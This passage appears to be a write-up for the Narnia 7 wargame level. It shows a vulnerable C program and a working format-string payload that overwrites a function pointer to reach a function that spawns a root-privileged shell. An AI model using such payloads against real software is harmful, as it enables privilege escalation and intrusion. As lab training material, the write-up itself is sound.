```c

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
	    fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

When we execute the program, we land ont the *goodfunction()* but the program want us to execute the *hackedfunction()*. If we take a close look, we can see there is a *format string* vulnerability in the *snprintf()* function.

```bash
$ ./narnia7 ABCD
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

So, according to the program, we need to modify **prtf** with the address of *hackedfunction()* (`0x8048724`). To do that we need to write `0x8048724` at `0xffffd638` (*prtf()*). Since we don't really know where our input is placed on the stack, we'll just brutforce the position. Note that the value we'll write will be **134514464** (`134514468 (or 0x8048724) - 4 = 134514464`)

```bash
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%1$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Segmentation fault
# Nope...

narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x38\xd6\xff\xff" + "%134514464d%2$n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd638)
I guess you want to come to the hackedfunction...
Way to go!!!!$
```